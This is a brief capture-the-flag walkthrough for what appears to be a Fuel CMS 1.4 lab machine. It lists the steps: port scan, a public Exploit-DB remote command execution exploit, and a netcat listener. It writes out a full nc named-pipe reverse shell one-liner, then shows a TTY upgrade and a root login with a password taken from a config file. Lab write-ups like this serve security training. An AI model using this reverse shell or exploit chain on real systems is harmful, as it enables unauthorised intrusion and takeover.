 Start with NMAP scan. We will see that there is port 80 and http is running on it. So visit the webpage. This is running `fuel-1.4` so check for vulnerabilities in it and you can find exploits on `exploit db`. Download the exploit and then run it. now you can execute commands remotely but we need reverse shell for root flag, we can get user flag using this command execution we have.So start netcat with tags `-lvp` on port `1234` and search for reverse shell cheatsheet and you will find an command for nc reverse shells <br>
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
In this change the IP and port(if required) and then you will get reverse shell but we need root access which you can get if you have looked webpage clearly, there was mention of database.php file and try catting that you will get password for root user so first get a terminal using this command
```bash
script /dev/null -c bash
```
Now switch to root 
```bash
su root
```
you are now root user so go to root directory and get root flag and user flag can be found in `www-data` directory, and boom all flags are solved.
